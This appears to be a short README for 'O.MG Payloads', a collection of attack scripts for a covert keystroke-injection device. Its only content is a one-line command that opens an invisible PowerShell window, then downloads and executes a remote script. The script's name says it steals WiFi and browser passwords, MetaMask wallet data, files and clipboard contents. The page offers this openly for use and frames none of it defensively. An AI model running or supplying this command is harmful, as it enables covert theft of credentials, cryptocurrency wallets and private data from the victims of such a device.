 # O.MG Payloads

**Run Invisible PowerShell Window:**

`conhost --headless powershell.exe -Command "irm https://raw.githubusercontent.com/WesleyWong420/OPSEC-Tradecraft/refs/heads/main/O.MG%20Payloads/WiFi_Browser_Passwords_Metamask_FilesExfil_ClipboardData.ps1 | iex"`
